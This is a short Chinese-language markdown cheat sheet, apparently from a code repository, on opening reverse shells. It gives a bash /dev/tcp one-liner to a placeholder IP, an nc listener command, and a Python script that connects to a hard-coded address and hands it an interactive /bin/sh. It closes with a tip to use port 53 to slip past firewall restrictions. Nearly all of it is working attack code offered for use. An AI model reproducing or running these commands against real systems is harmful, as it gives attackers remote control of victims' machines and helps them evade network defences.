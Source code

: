 # 反弹shell
### bash反弹
```
bash -i >& /dev/tcp/x.x.x.x/8888 0>&1
```
- 本地使用nc进行监听

```
nc -lvp 8888
```

### python反弹
```
#!/usr/bin/python
#-*- coding: utf-8 -*-
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.20.151",7777)) #更改localhost为自己的外网ip,端口任意
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
个人觉得python反弹比较好用，有时bash反弹不是很好用

## 注意：有时候任意端口是不可取得，小技巧，我们监听一个其他服务端口，一般监听53端口，然后通过53端口进行反弹，测试可以成功。

详细参考链接：https://www.jianshu.com/p/9456473a0a14
